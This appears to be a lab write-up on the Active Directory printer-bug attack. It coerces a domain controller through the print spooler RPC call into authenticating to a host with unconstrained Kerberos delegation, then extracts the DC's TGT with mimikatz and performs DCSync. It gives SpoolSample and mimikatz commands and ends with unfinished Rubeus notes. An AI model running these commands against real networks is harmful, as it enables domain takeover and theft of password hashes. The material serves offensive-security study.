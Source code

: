 - Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
- Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
- Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled.
    - This is done via RPC API [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
    - Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
- Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

## Execution
Our environment for this lab is:
- ws01 - attacker compromised host with kerberos delegation enabled (attacker, server)
- dc01 - domain controller running a print service (victim, target)

We can check if a spool service is running on a remote host like so:

```
ls \\dc01\pipe\spoolss
```
![[image 3.png]]
Trick the victim:
Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server` (DC with spoolss running on it):
```
.\SpoolSample.exe dc01 ws01
```
![[image.avif]]
```
mimikatz # sekurlsa::tickets
```
![[Pasted image 20240917102123.png]]
we got dc01
We can dcsync
```
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```


With rubeus something like
triage
s4u
create net only
steal token